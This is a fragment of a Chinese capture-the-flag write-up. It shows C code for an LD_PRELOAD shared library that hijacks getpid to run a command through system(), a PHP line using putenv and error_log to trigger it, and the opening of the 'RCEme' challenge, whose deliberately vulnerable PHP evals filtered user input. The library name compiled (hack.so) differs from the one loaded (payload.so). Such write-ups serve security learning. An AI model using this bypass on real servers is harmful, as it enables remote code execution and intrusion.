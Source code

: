 写入之后, 由hack.c编译一个hack.so, hack.c内容如下:

```c
#define  _GNU_SOURCE
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <signal.h>

void pwn(void) {
system("perl /var/www/html/exp.perl > /var/www/html/res 2>&1");
}

void getpid(){
  unsetenv("LD_PRELOAD");
  pwn();
}

```

最后执行

```
putenv("LD_PRELOAD=/var/www/html/payload.so");error_log("",1,"","");
```

就可以拿到flag了

# 极客大挑战 RCEme

```php
 <?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>

```

首先是个无字母数字shell
